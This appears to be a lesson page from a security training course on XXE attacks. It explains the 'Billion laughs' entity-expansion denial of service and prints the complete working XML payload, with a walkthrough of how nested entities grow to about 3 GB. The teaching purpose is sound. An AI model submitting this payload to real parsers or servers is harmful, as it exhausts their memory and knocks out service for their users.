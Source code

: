 == XXE DOS attack

With the same XXE attack we can perform a DOS service attack towards the server. An example of such an attack is:

[source]
----
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
----

When XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined
entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on.
After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually take up almost 3 gigabytes of memory.

This is called a "Billion laughs", more information can be found here: https://en.wikipedia.org/wiki/Billion_laughs


